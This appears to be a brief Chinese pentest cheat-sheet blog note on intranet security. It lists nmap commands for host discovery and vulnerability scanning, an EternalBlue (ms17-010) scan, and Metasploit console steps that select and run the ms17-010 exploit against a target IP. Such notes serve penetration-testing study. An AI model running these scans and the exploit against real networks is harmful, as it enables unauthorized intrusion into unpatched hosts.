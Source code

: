 [Note]内网安全
date: '2020-03-23T07:37:00.001+01:00'

---
内网IP存活：nmap -sP 192.168.1.1-225

                       nmap -sP 192.168.1.1/24

                       nmap -sn 192.168.1.1-225

                       nmap -sn 192.168.1.1/24

  
单IP扫描漏洞: nmap --script=vuln "ip"

  


扫描永恒之蓝: nmap -p 445 --script=smb-vuln-ms17-010 192.168.1.102/24

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhh4_PYnCRJJbn0qKAcUYxEM-EL5jq7eAM8IBzqD4q-45e_fclLXPD-SZUPwGbKiO4O7aA5Z94bjrhdxH2gYNL-fpe7YIZTCvSApv_NOgYj5nYEuXBThYiznrQigCqYyjD0ppxBKeXx5mr4XSLyKNMi10Q_EgLM9kDWSi5x6xscCVPpak5rzWG0vV1y/s320/Screenshot%202022-03-23%20at%202.44.23%20PM.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhh4_PYnCRJJbn0qKAcUYxEM-EL5jq7eAM8IBzqD4q-45e_fclLXPD-SZUPwGbKiO4O7aA5Z94bjrhdxH2gYNL-fpe7YIZTCvSApv_NOgYj5nYEuXBThYiznrQigCqYyjD0ppxBKeXx5mr4XSLyKNMi10Q_EgLM9kDWSi5x6xscCVPpak5rzWG0vV1y/s1124/Screenshot%202022-03-23%20at%202.44.23%20PM.png)  
  
利用ms17-010: msfconsole

msf5> search ms17-010

msf5> use 3

msf5> show options

msf5> set rhost="ip"

msf5> exploit


